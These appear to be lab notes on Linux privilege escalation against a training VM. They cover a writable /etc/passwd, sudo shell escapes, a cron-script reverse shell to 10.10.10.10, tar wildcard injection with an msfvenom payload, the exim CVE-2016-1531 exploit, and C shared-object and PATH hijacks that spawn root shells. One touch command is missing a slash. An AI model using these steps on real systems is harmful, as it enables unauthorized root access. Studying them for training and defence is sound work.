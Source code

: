 ## Table of Contents

- [Weak File Permissions - Writable /etc/passwd](#weak\file\permissions\-\writable\/etc/passwd)
- [Sudo - Shell escape sequences](#sudo\-\shell\escape\sequences)
- [Cron jobs (File Permissions)](#cron\jobs\(file\permissions))
- [Cron Job wild cards](#cron\job\wild\cards)
- [SUID/SGID executables - Known Exploits](#suid/sgid\executables\-\known\exploits)
- [SUID/SGID executables - Shared Object Injection](#suid/sgid\executables\-\shared\object\injection)
- [SUID/SGID executables - Environment Variables](#suid/sgid\executables\-\environment\variables)


# Weak File Permissions - Writable /etc/passwd
The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some version of linux will still allow password hashes to be stored there.

`ls -l /etc/passwd`

Generate a new password hash with a password of your choice:

`openssl passwd newpasswordhere`

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

`su root`

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").  

Now switch to the newroot user, using the new password:

`su newroot`

# Sudo - Shell escape sequences
Run: 
`sudo -l`
Visit https://gtfobins.github.io/ and search for some of the program names, if the program is listed with "sudo" as a function, use it to elevate privileges.
```find -> root
sudo find . -exec /bin/sh \; -quit
```

# Cron jobs (File Permissions)
cat /etc/crontab
locate script that runs with sudo permissions and is writable. 
```
ls -l overwrite.sh

[script]
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

[from host machine]
nc -lvnp 4444
*Root Rev shell*
```


# Cron Job wild cards
View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.107.61 LPORT=4444 -f elf -o shell.elf ` 
>> transfer the file to /home/user on the target host (scp or webserver)
>
> chmod +x /home/user/shell.elf
> Create these two files in /home/user
>> touch /home/user/--checkpoint=1
>> touch /home/user--checkpoint-action=exec=shell.elf

When tar command in the cronjob runs, the wildcard will expand to include these files, since the filenames are valid tar command line options, tar will recognice them as such and treat them as command line optioins rather than filenames.
`nc -nvlp 4444`  

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

`rm /home/user/shell.elf   rm /home/user/--checkpoint=1   rm /home/user/--checkpoint-action=exec=shell.elf`

# SUID/SGID executables - Known Exploits

Find all the SUID/SGID executables:
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

# SUID/SGID executables - Shared Object Injection
The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`  

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Create the **.config** directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`  

Remember to exit out of the root shell before continuing!
(libcalc.c)
```C

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

# SUID/SGID executables - Environment Variables
The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`  

Remember to exit out of the root shell before continuing!
(service.c)
```C
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

